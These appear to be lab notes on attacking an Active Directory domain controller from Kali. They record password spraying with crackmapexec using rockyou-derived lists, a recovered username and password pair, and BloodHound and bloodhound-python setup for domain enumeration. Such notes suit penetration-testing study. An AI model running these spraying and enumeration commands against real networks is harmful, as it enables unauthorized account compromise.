 # Working with a Kali machine

- Used crackmapexec to crack user:pass combinations for low level users on the DC from files we created.

  added random passwords from rockyou.txt into passwords.txt\
  added random users from the user.txt file\

- To run properly crackmapexec command had to configure the /etc/hosts file and the /etc/resolve.conf to add the DC address to it
  crackmapexec smb <ip> -u users.txt -p passwords.txt\

  Continue enumerating even when the user:pass combination has been found for a user\
  crackmapexec smb 192.168.8.155 -u users.txt -p passwords.txt --continue-on-success\

- Getting ready for bloodhound installing with neo4j  
  sudo echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list\
  sudo apt-get update\
  wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -\necho 'deb https://debian.neo4j.com stable latest' >     /etc/apt/sources.list.d/neo4j.list\nsudo apt-get update\
  sudo apt-get install apt-transport-https
  sudo apt-get install neo4j

  Access the gui (localhost:7474) and changed the default password for neo4j


- Installed bloodhound latest release from https://github.com/BloodHoundAD/BloodHound/releases
  ./BloodHound\

  ...Starting bloodhound\
  
- Sharphound python version from github https://github.com/fox-it/BloodHound.py
  pip install bloodhound
  added bloodhound-python to the $PATH
  /home/kali/.local/bin 
  subl ~/.zshrc
  source ~/.zshrc
  added /home/kali/.local/bin to the file
  
  Running the command with the default username and password we had found with crackmapexec earlier
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com
  
  To get All 
  loodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com -c All

- the output generates multiple .json files we can use to upload into the bloodhound GUI and analyze the AD users,groups, and other parameters
- Installed bloodhound, neo4j, and a python version of sharphound (bloodhound-python)  

